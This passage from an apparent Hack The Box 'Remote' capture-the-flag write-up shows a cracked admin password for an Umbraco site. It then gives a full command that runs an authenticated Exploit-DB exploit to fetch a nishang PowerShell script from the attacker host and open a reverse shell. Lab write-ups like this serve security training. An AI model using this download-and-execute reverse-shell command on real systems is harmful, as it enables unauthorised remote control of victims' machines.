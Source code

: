 

![image 8](https://raw.githubusercontent.com/thehunt1s0n/media/main/Remote-htb/image%20(8).png)


Let's crack the hash.


![image 9](https://raw.githubusercontent.com/thehunt1s0n/media/main/Remote-htb/image%20(9).png)



>Username: admin@htb.local
Password: baconandcheese

![image 10](https://raw.githubusercontent.com/thehunt1s0n/media/main/Remote-htb/image%20(10).png)


## Initial Foothold

Let's go back to the umbraco web app running on port 80.

![image 11](https://raw.githubusercontent.com/thehunt1s0n/media/main/Remote-htb/image%20(11).png)


It seems that I have to be authenticted for the exploit to work


[https://www.exploit-db.com/exploits/49488](https://www.exploit-db.com/exploits/49488)

><span style="color:green; font-style:italic; font-family: Calibri, sans-serif; font-size: larger">We are going to upload the powercat.ps1 script to the remote machine and then execute it in order to get a rev shell on attacker machine.</span>
<br>


<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ sudo python3 umbraco.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180/ -c powershell.exe -a "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.2:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.2 -Port 5555"
"</span>
</div>
<br>


![image 12](https://raw.githubusercontent.com/thehunt1s0n/media/main/Remote-htb/image%20(12).png)


>[PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)


![image 13](https://raw.githubusercontent.com/thehunt1s0n/media/main/Remote-htb/image%20(13).png)


![image 14](https://raw.githubusercontent.com/thehunt1s0n/media/main/Remote-htb/image%20(14).png)




![image 15](https://raw.githubusercontent.com/thehunt1s0n/media/main/Remote-htb/image%20(15).png)

